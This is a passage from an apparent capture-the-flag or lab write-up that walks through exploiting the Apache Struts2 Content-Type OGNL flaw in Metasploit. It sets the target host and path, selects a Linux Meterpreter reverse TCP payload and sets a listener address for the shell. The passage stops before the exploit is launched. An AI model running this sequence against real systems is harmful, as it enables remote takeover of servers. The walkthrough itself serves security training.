 Let's set the `RHOST`, `RPORT` and `TARGETURI`:

~~~
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 10.10.223.120
RHOST => 10.10.223.120
msf5 exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
~~~

Now, as we want to have a reverse shell, let's find one:

~~~
msf5 exploit(multi/http/struts2_content_type_ognl) > search linux/x86/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  payload/linux/x86/meterpreter/reverse_tcp                        normal  No     Linux Mettle x86, Reverse TCP Stager
   1  payload/linux/x86/meterpreter/reverse_tcp_uuid                   normal  No     Linux Mettle x86, Reverse TCP Stager


msf5 exploit(multi/http/struts2_content_type_ognl) > set PAYLOAD payload/linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
~~~

Now, let's set up our `LHOST`:

~~~
msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.223.120     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /showcase.action  yes       The path to a struts application action
   VHOST                        no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf5 exploit(multi/http/struts2_content_type_ognl) > set LHOST 10.9.35.106
~~~